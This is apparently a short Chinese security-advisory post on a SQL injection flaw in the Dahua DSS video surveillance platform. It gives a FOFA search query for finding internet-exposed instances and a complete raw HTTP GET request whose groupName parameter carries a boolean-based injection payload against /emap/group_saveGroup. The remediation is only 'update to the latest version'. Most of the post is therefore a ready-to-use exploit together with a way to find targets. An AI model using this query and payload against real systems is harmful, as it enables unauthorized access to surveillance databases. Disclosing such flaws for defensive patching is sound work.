 #  [企业安全运维]大华-DDS数字监控系统-现新漏洞   
原创 合规渗透  合规渗透   2024-08-12 21:07  
  
**fofa语法：**  
  
app="dahua-DSS"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj61ewu1ukDvsxRNnJM3aIUNSS9kaYdnUGhmoEOJyvlXXg6VoJiblLkXodrHJVErk2aNWb47MgoZ7EQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞详情：**  
```
GET
/emap/group_saveGroup?groupName=1'%20and%202333=2333%20and%20'hami'='hami&groupDesc=1
HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1;
rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
```  
  
**修复方案：**  
  
更新系统至最新版本****  
  
